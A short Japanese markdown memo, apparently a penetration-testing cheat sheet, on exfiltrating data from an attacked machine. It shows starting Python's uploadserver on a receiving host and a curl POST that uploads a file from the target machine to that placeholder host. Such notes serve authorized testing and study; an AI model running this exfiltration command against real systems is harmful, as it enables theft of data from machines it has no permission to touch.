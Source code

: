 # 流出
攻撃対象マシンからデータを持ち出す技術に関するメモ

## Web経由でファイルを持ち出し
簡易的なアップロードサーバを立ててアップロードさせる
https://pypi.org/project/uploadserver/

```
python3 -m uploadserver
```
受けのマシンでWebサーバを起動

```
curl -X POST http://<受けのマシン>:8000/upload -F 'files=@example.txt'
```
攻撃対象マシンでcurlを用いてアップロード


